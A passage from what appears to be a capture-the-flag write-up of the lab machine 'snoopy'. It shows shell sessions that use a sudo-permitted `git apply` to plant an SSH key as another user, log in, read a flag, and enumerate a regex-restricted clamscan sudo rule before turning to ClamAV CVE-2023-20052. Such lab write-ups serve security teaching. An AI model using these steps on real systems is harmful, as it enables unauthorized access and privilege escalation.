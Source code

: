 

    cbrown@snoopy:/dev/shm$ chmod 777 ssh/
    cbrown@snoopy:/dev/shm$ cd ssh/
    cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply patch
    cbrown@snoopy:/dev/shm/ssh$



### SSH

With my key in place, I can SSH into the box as sbrown:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen sbrown@snoopy.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
    ...[snip]...
    sbrown@snoopy:~$



And get `user.txt`:



    sbrown@snoopy:~$ cat user.txt
    f1790bcd************************



## Shell as root

### Enumeration

sbrown can run `clamscan` in a specific way as root using `sudo`:



    sbrown@snoopy:~$ sudo -l
    Matching Defaults entries for sbrown on snoopy:
        env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

    User sbrown may run the following commands on snoopy:
        (root) NOPASSWD: /usr/local/bin/clamscan ^--debug /home/sbrown/scanfiles/[a-zA-Z0-9.]+$



This is actually one of the first time I've seen regex used in a `sudo`
rule like this, which [was
added](https://www.sudo.ws/posts/2022/03/sudo-1.9.10-using-regular-expressions-in-the-sudoers-file/)
in version 1.9.10 in March 2022.

### Identify CVE-2023-20052

Searching for "clamav vulnerability" will turn up many articles from
February 2023 about CVE-2023-20032 and CVE-2023-20052:
